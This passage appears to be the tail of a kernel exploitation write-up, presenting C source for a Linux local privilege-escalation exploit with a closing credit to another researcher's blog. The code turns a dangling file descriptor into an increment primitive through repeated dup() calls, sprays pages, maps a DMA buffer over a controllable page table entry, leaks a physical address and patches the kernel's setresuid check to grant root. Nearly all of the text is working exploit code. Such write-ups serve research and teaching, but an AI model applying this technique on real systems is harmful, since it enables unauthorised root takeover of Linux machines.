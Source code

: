 ```c
  }


  printf("Using our increment primitive to change the physical memory pointer to point on our DMA buf structure...\n");
  for (int i = 0; i < 0x1000; i++){
    dup(dangeling_fd);
  }

  // Search for page that overlaps with other physical page
  void *pte_victim = NULL;
  for (int i = 0; i < PAGES_COUNT; i++) {
    if (pages_spray[i][7*0x1000] != '7') { // if it got changed
      pte_victim = pages_spray[i] + 0x7000;
      break;
    }
  }

  // Place PTE entry for DMA buffer onto controllable PTE
  printf("Allocate pte over our DMA buffer...\n");
  munmap(evil, 0x1000);
  void *dmabuf_mem = mmap(evil, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_POPULATE, dma_buf_fd, 0);
  *(char*)dmabuf_mem = 'A'; // trigger page fault

  //change physical address to point to the PTE struct
  for (int i = 0; i < 0x1000; i++){
    dup(dangeling_fd);
  }

  //find the victim pte, that we have control over

  void* physical_mem_address = NULL;
  for (int i = 0; i < N_PAGESPRAY; i++) {
    if (page_spray[i] != evil){
      if (*(size_t*)page_spray[i] > 0xffff) {
        physical_mem_address = (*(long long)(page_spray[i]) & 0xfffffffffffff000) - 0x1c04000; 
        break;
      }
    }
  }

  void* setresuid_jne_byte = physical_mem_address + SETRESUID_OFFSET;

  *(char*)(setresuid_jne_byte) = 0x74; //(flip je to jne)
  return 0;
}
```

Took a lot of inspiration from [ptr-yudai blog](https://ptr-yudai.hatenablog.com/entry/2023/12/08/093606) exploit, so thanks a lot for that! 